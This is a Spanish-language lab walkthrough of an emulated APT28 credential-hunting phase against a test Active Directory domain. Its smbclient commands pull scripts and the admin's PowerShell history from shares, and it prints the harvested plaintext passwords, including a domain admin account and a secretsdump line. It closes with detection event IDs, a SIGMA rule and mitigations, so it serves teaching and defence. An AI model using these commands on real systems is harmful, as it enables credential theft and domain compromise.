




# Credential Hunting — Operación IRON FOREST
## Lab-04: Búsqueda sistemática de credenciales en shares y historial PS

**Operación:** IRON FOREST | **Adversario:** APT28 (Fancy Bear) | **Fase:** 02 — Credential Hunting  
**Fecha:** 28/05/2026 | **Operador:** Adrián Camacho


> **Módulo M2 · Ruta: `[crítica]`**
>
> **Objetivo único:** Búsqueda de credenciales en shares SMB e historial PowerShell.
>
> **Prerequisito real:** M1 (objetivos identificados).
>
> **Habilita:** obtiene credenciales de fin.garcia → habilita lateral (M4) y abuso ACL (M5).
>
> **TTP:** T1552.001 · T1083 · T1005

---

## FASE 02 — Credential Hunting

### 2.1 Acceso al share \\DC-01\IT-Scripts

**Objetivo:** El share `IT-Scripts` es accesible por todos los usuarios del dominio (ReadAccess: "Usuarios del dominio").  
Cualquier cuenta de dominio comprometida puede acceder a scripts IT con credenciales embebidas.

```bash
smbclient \\\\10.0.2.10\\IT-Scripts \
  -U 'atackcorp.local/ceo.martinez%Direccion2024!'
```

**Output:**
```
smb: \> ls
  .                                   D        0  Thu May 28 12:39:22 2026
  ..                                  D        0  Thu May 28 12:39:19 2026
  backup_database.ps1                 A      487  Thu May 28 12:39:22 2026
  deploy_webapp.ps1                   A      376  Thu May 28 12:39:22 2026
```

> 📸 Captura:
> 

> 📸 Captura:
> 

---

### 2.2 Análisis de backup_database.ps1

```bash
get backup_database.ps1
get deploy_webapp.ps1
```

**Contenido backup_database.ps1:**
```powershell
$SQLServer = "DC-01\SQLEXPRESS"
$SQLUser = "sa"
$SQLPass = "SQLsa2026!"          # TODO: mover a vault
$BackupPath = "\\DC-01\Backups"
$BackupUser = "backup_svc"
$BackupPass = "Backup2024!"
net use $BackupPath /user:ATACKCORP\$BackupUser $BackupPass
```

**Contenido deploy_webapp.ps1:**
```powershell
$IISUser = "ATACKCORP\iis_svc"
$IISPass = "IISService2024!"
$SQLConnStr = "Server=DC-01;Database=AtackCorpDB;User=webapp_db;Password=WebappDB2024!"
```

> 📸 Captura:
> 

**Credenciales encontradas en scripts IT:**

| Usuario | Contraseña | Servicio |
|---|---|---|
| `sa` | `SQLsa2026!` | SQL Server Express |
| `backup_svc` | `Backup2024!` | Backup service |
| `iis_svc` | `IISService2024!` | IIS / Web service |
| `webapp_db` | `WebappDB2024!` | Web application DB |

---

### 2.3 Historial PowerShell del Administrador

**Objetivo:** El historial de PowerShell del Administrador en `C:\Users\Administrador.DC-01\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt` contiene comandos ejecutados previamente con credenciales en claro.

```bash
smbclient \\\\10.0.2.10\\C$ \
  -U 'atackcorp.local/backup_svc%Backup2024!' \
  -c 'get "Users\Administrador.DC-01\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt" /tmp/ps_history.txt'
```

**Credenciales críticas encontradas:**
```
net use \\NAS-01\Backups /user:ATACKCORP\backup_svc Backup2024!
Invoke-Sqlcmd -ServerInstance DC-01\SQLEXPRESS -Username sa -Password SQLsa2026!
Set-ADAccountPassword -Identity fin.garcia -NewPassword (ConvertTo-SecureString "Finance2024!" ...)
impacket-secretsdump atackcorp.local/Administrador:'NuevaPassword2026!'@10.0.2.10
```

> 📸 Captura:
> 

**Credenciales adicionales encontradas en historial PS:**

| Usuario | Contraseña | Origen |
|---|---|---|
| `fin.garcia` | `Finance2024!` | Set-ADAccountPassword en historial |
| `Administrador` | `NuevaPassword2026!` | impacket-secretsdump en historial |

---

### 2.4 Resumen total de credenciales — Fase 02

| Usuario | Contraseña | Tipo | Relevancia |
|---|---|---|---|
| `sa` | `SQLsa2026!` | SQL local | Movimiento lateral via MSSQL |
| `backup_svc` | `Backup2024!` | Dominio | Ya comprometido |
| `iis_svc` | `IISService2024!` | Dominio | Cuenta de servicio |
| `webapp_db` | `WebappDB2024!` | SQL | Acceso a DB aplicación |
| `fin.garcia` | `Finance2024!` | Dominio | **WriteDACL sobre dominio → DA** |
| `Administrador` | `NuevaPassword2026!` | Dominio (DA) | **Domain Admin directo** |

**Crown Jewel identificado:** `fin.garcia:Finance2024!` — cuenta con `WriteDACL` sobre `DC=atackcorp,DC=local`.

---

### 2.5 Detección — Blue Team

**Event IDs generados:**
- `5140` — Acceso a share de red (`\\DC-01\IT-Scripts`)
- `5145` — Acceso a archivo/carpeta en share
- `4663` — Acceso a objeto (ConsoleHost_history.txt)

**Regla SIGMA — Acceso a historial PowerShell:**
```yaml
title: PowerShell History File Access via SMB
detection:
  selection:
    EventID: 5145
    ShareName: 'C$'
    RelativeTargetName|contains: 'ConsoleHost_history.txt'
  condition: selection
level: high
```

**Mitigación:**
- Restringir acceso al share `IT-Scripts` — solo administradores IT
- No almacenar credenciales en scripts — usar secrets vault (CyberArk, HashiCorp Vault)
- Limpiar historial PS regularmente: `Remove-Item (Get-PSReadLineOption).HistorySavePath`
- Habilitar PSReadLine `HistorySaveStyle = SaveNothing` en sistemas sensibles

---

*Operación IRON FOREST — Adrián Camacho | 28/05/2026*  
*Entorno de laboratorio — Únicamente con fines educativos*